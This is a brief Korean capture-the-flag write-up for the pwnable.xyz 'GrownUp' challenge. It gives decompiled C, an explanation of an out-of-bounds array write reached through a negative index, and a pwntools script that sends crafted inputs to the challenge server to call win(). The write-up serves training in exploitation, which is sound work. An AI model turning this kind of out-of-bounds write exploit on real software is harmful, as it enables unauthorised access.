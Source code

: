 ```yaml
---
title: "[pwnable.xyz]GrownUp"
date: 2020-1-12
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-A0h]
  _QWORD v5[3]; // [rsp+18h] [rbp-98h]
  __int64 v6; // [rsp+30h] [rbp-80h]
  __int64 v7; // [rsp+38h] [rbp-78h]
  __int64 v8; // [rsp+40h] [rbp-70h]
  unsigned __int64 v9; // [rsp+A8h] [rbp-8h]
 
  v9 = __readfsqword(0x28u);
  setup(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 152uLL);
  *(_QWORD *)((char *)v5 + 7) = 0xDEADBEEFLL;
  while ( (unsigned int)_isoc99_scanf("%ld %ld %ld", &v6, &v7, &v8) == 3 && v8 <= 9 && v8 >= 4294967289 )// v8>=-7
  {
    v5[v8 + 6] = v6 + v7;
    printf("Result: %ld\n", v5[v8 + 6]);
  }
  if ( *(_QWORD *)((char *)v5 + 7) == 0xB000000B5LL )
    win();
  return 0;
}
```

0xb5, 0x00, 0x00, 0x00, 0xb0, 0x00, 0x00, 0x00, 0x00 이런식으로 리틀엔디안으로 넣어주면 된다.

64비트에서 scanf의 %ld는 2^63 − 1 보다 큰 값이 들어올 경우 2^63-1 이다.

```
>>> 0xb500000000000000 - 0xffffffffffffffff - 1
-5404319552844595200L

>>> 0x0b000000
184549376
```

v5[0]에 0xb500000000000000 , v5[1]에 0x0b000000을 넣어주면 된다.

![](https://user-images.githubusercontent.com/32904385/72206532-86595780-34d2-11ea-9b45-2005bc8ff603.png)

> exploit.py

```python
from pwn import *
 
#p= process("./challenge")
p=remote("svc.pwnable.xyz",30003)
 
context.log_level='debug'
 
p.writeline("-5404319552844595200 0 -6")
p.readuntil("Result: ")
p.writeline("184549376 0 -5")
p.readuntil("Result: ")
p.writeline("1 1 1000")
p.interactive()
```

